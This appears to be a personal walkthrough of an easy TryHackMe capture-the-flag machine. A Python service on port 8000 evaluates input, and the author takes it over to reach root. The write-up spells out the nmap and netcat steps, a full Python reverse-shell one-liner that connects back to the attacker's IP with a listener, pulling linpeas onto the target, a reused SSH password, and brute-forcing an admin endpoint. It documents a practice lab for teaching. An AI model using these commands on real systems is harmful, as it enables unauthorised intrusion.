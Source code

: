 # Fun
.Solving an easy challenge on tryhackme.com

![test](images/1.png)
![test](images/2.png)

**The challenge is to hack into a python server that when receiving a GET request from a client runs some of the content of that request as an input for the python interpreter running in the server.**

So the first step is to deploy the challenge machine in the tryhackme platform, we get the challenge machine ip address as 10.201.65.80, this is an ip from a private network, so we connect to the network of the tryhackme platform using the command 
`sudo openvpn Downloads/user.ovpn` after we ping the target so we can see that we have access to the target
`ping 10.201.65.80`

![test](images/3.png)

After seeing that we are in fact into the network  we run nmap to scan the target with the `-sV` flag to enumerate the version of the sotware running in the ports of the server. `nmap -sV 10.201.65.80` 

![test](images/4.png)

Nmap return that the target server is running ssh in port 22 and a http server in port 8000. As in the premises of the challenge is very straight forward where to look, i'm not gonna try to bruteforce the ssh and focus in the server as the foothold point.

We see that the http server is using the simplehttp python. the command to start running this kind of server in your machine is a derivation of `python3 -m http.server PORT_TO_RUN` and the fingerprint string of the responde of the http is returning error about an object not defined in the request. When access the http service in port 8000 in a browser we receive a html file saying *Try a more basic connection!*

![test](images/5.png)

So we connect using netcat a swiss army knife to handling basic network connections, we use the command
`nc 10.201.65.80 8000` (i lost the screenshot but when you connect via netcat all you type in the terminal is run by a python interpreter, so if i typed `hello` it would return `NameError: name 'hello' is not defined.`
and when typed `print("hello")` we receive *hello* as response. **Then we can conclude that this is the remote code execution flaw of the server, we can exploit this to execute arbitrary code into the server machine**.

We use a reverse shell cheat sheet online to look an one line python code to make the server spawn a shell and connects to our machine (REVERSE SHELL) writing `import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("OUR_MACHINE_IP",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")` into the netcat connection with the target as is running a get request as python code. This code will make the server connects to our machine and connect an interactive shell of the server into our machine by port 1337, so we set our machine to listen to connections in port 1337 by using `nc -lvnp 1337` (-l is listen, -v verbone, -p port and -n no dns resolution).

![text](images/6.png)

In the nc -lvnp 1337 we receive a connection from 10.201.92.41 (our target address) and a **$** which means a input for shell, when we run `id` into this shell we received in port 1337 the output is **www-data** which is the user responsible for the http server, so we are inside the target server and running code as www-date user, which is a very low priveleged user in the target system, the next step is to realize a **privilege escalation** to achieve root into the target system, owning the target. So we have access to the target server but with the user www-data (It is not showed by the photos, but in my machine i runned a simple http server by `python3 -m http.server PORT` to connect via the victim's machine and get the linpeas.sh program inside the target server, linpeash is a program to find privilege escalation and it returned us the existence of `/opt/dev/.git`)

![text](images/7.png)
![text](images/b.png)
With the user think and the password __TH1NKINGPirate$__ we can connect to the target via ssh using the think user
![text](images/c.png)
![text](images/d.png)
![text](images/e.png)

Exploring the .git folder we find that the last commit and we can see a little bit of the python backend code running in the server

![text](images/77].png)
![text](images/code.png)

In the python code we see that if the data == 'some_endpoint': then a function get_this_endpoint will be called. So we need to bruteforce to find the endpoint, we achieve this creating a .py script that bruteforce for endpoints after connecting to the server that is

![text](images/11.png)

After this we discover the admin endpoint evoke a password input and we need to bruteforce the password by the same method and we are in with a root shell

![text](images/12.png)
![text](images/13.png)
![text](images/14.png)
